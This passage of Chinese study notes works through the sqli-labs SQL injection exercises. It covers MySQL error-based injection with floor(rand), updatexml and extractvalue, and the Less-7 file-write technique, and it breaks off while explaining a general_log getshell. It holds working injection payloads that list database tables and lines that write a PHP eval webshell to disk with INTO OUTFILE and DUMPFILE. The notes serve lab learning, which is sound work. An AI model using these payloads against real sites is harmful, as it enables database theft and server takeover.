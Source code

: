         如上图所示，按照道理来说，`select count(*), floor(rand(*0) * 2) x from employees;`的结果应该是两行，x 可以为 0 或 1 且各两次（`count(*)` 的值都为 2），但是结果却是只有 0 且次数为 4。说明 MySQL 在执行这段语句时内部发生了意想不到的问题，此时结合 `group by floor(rand(0) * 2)` 就会发生错误。（虽然还是不懂错误的根本原因）

4. 利用：

    报错当前数据库的列名。

    `and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e), 1) -- -`

    或者：

    `and extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e)) -- -`

    或者：

    `union select 1,count(*),concat(0x7e, 0x7e, (select table_name from information_schema.tables where table_schema = database() limit 0,1), 0x7e, 0x7e, floor(rand(0)*2)) x from information_schema.tables group by x -- -`

    `concat()` 负责将内容整合成字符串，这里 table_name 使用  `group_concat()` 会无效。所以用  `limit` 来获取。

## 4. Less-7（写入木马文件、读文件）

1. 使用条件：

    1. `secure_file_priv` 的值不能为 NULL，NULL 代表 MySQL 不允许导入导出。

        若没有具体的值，就代表不限制导入导出

        否则就是具体路径

    2. 查看 `secure_file_priv` 的参数的值：

        `show global variables like '%secure%';`

    3. 默认情况下，该值为 NULL。

2. outfile 和 dumpfile

    假设有一个二进制文件，如果用 outfile 导入，则在导出过程中会被转义从而被破坏，这是只能使用 dumpfile 函数。即 dumpfile 不会对行列进行终止与转义。

    `union select 1, '<?php @eval($_POST['password']); ?>', 3 INTO OUTFILE '路径' -- -`

    `union select 1, '<?php @eval($_POST['password']); ?>', 3 INTO dumpfile'路径' -- -`

3. `lines terminated by 'webshell 语句'` 在 select 后面使用，作用是在每行终止的位置添加 webshell 语句。

    `select * from users where id='1' into outfile '文件路径' lines terminated by 'webshell 语句'`

4. 同理，有 `lines terminated by` 就有 `lines starting by`

5. 有从头尾插入，就有从中间插入：`fields 或者 columns terminated by`

6. 当有 MySQL 的 root 权限时，可以通过修改 MySQL 的 log 文件来 getshell

    1. 先查看配置，需要 MySQL 的 `general_log` 属性为 on：

        `show variables like '%general%';`

    2. 如果没有开，那就开：
